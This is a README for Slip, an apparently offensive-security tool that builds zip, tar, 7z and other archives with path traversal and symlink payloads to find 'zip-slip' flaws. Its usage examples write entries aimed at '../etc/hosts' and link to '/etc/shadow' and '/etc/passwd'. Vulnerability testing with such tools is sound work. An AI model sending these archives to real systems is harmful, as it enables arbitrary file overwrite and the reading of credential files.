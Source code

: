 # Slip (experimental branch)

Slip is a malicious archive generator to exploit path traversal vulnerabilities.

Slip makes it easy to create multiple archives containing path traversal payloads in file name fields, rendering the extraction of the archive a potentially dangerous operation. With this approach it is possible to find and exploit "[zip-slip](https://security.snyk.io/research/zip-slip-vulnerability)" type vulnerabilities.

## Motivation

Most commonly used tools rarely support path traversal payloads in archives, this makes it hard and time consuming to create malicious archives when attempting to find vilnerabilities in a software. With slip it's really convenient to create higly customizable archives that fit most situations.

## Features

Slip is a feature rich script capable of satisfying most "zip-slip" hunting needs, in particular the script:

- Supports **zip**, **tar**, **7z**, **jar**, **war**, **apk** and **ipa** archives 
- Allows to hunt for **arbitrary file write** and **arbitrary file read** vulnerabilities (using paths or symlinks)
- Supports the automatic generation of path traversal payloads to look for a file at different depths in the filesystem
- Supports the usage of custom path traversal "dotdotslash" sequences
- Implements a "massfind" mode, that uses a payload dictionary to generate the archive
- Allows cloning existing archives to add malicious payloads in more complex archives

## Getting started

### Installation
Clone the repo, install the requirements (`pip install -r requirements.txt`) and you're good to go!

### Usage
```
Usage: slip.py [OPTIONS] ARCHIVE_NAME

  Script to generate "zipslip" and "zip symlink" archives.

  ARCHIVE-NAME is the name of the archive to be created.

Options:
  -a, --archive-type [zip|tar|7z|jar|war|apk|ipa]
                                  Type of the archive.  [default: zip]
  -c, --clone TEXT                Archive to clone. It creates a copy of an
                                  existing archive and opens to allow adding
                                  payloads.
  -j, --json-file TEXT            JSON file containing a list of file
                                  definitions
  -p, --paths TEXT                Comma separated paths to include in the
                                  archive.
  -s, --symlinks TEXT             Comma separated symlinks to include in the
                                  archive. To name a symlink use the syntax:
                                  path;name
  --file-content TEXT             Content of the files in the archive, file-
                                  content must be specified if -p/--paths is
                                  used.
  --search INTEGER                Maximum depth in path traversal payloads,
                                  this option generates payload to traverse
                                  multiple depths. It applies to all symlinks
                                  and paths.  [default: 0]
  --dotdotslash TEXT              Dot dot slash sequence to use in search
                                  mode.  [default: ../]
  --mass-find TEXT                Name of the file to find. It will create an
                                  archive with numerous path traversal
                                  payloads aimed to find the specified file
                                  name. WARNING: it uses A LOT of payloads,
                                  use with caution.
  --mass-find-mode [paths|symlinks]
                                  Mass-find mode to use  [default: symlinks]
  --mass-find-dict FILENAME       Mass-find payload dictionary  [default:
                                  path_traversal_dict.txt]
  --compression [none|deflate|bzip2|lzma|lzma2|ppmd|brotli|zstandard|copy]
                                  Compression algorithm to use in the archive.
  -v, --verbose                   Verbosity trigger.
  --help                          Show this message and exit.

```

### Usage example

Create a tar.bz2 archive containing 2 explicit paths: 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "../etc/hosts, ../../etc/hosts" --file-content "foo" archive.tar
```

Create a zip archive containing an explicit path and an explicit symlink: 
```
python3 slip.py --archive-type zip --compression deflate --paths "../etc/hosts" --symlinks "../etc/shadows" --file-content "foo" archive.zip
```

Create a 7z archive with a named symlink:
```
python3 slip.py --archive-type zip --symlinks "../etc/hosts;linkname" archive.zip  
```
This technique is really useful in case directory traversal payloads are filtered in paths but not in symlink, as it would be possible to achieve an arbitrary write file referring to the named symlink as parth of the path (e.g. symlink: `../etc/;foo`, path: `foo/hosts`).

Create an archive from an existing one and add a new payload:
```
python3 slip.py --clone source.7z --paths "foo" --file-content "bar" archive.7z
```

Create an archive from a JSON file and add new payloads:
```
python3 slip.py --json-file definition.json --paths "foo0,bar00" --symlinks "/etc/passwd;oof,/etc/shadow;rab"--file-content "buzz" archive.zip
```

With `definition.json` containing:
```
[
    {
        "file-name": "../foo1",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "../../foo2",
        "content":"bar",
        "type":"path"
    },
    {
        "file-name": "/etc/passwd;foo3",
        "content":"IGNORED",
        "type":"symlink"
    },
    {
        "file-name": "foo4",
        "content":"Y2lhbwo=",
        "base64": true,
        "type":"path"
    }
]
```
Supported fields are `file-name`, `content`, `base64`, `type`.
If `base64` is specified, content will be decoded form bae64.
`type` can only be `path` or `symlink`.

Create a tar.bz2 archive with 4 payloads to search for "config.ini" at 3 different depths (it also uses Windows flavor dot dot slash): 
```
python3 slip.py --archive-type tar --compression bzip2 --paths "config.ini" --search 3 --dotdotslash "..\\" --file-content "foo" archive.tar
```
The archive will contain:
```
config.ini
..\config.ini
..\..\config.ini
..\..\..\config.ini
```
NOTE: --search does not support named symlink usage to prevent named symlinks to overwriting eachother. 

Create a tar archive with payloads from the default mass-find dictionary to find the `/etc/host/` file:
```
python3 slip.py --archive-type tar --mass-find "/etc/hosts" --mass-find-mode symlinks archive.tar
```

## License
This project is licensed under the GPL-3.0 [License](https://github.com/0xless/slip/blob/main/LICENSE).
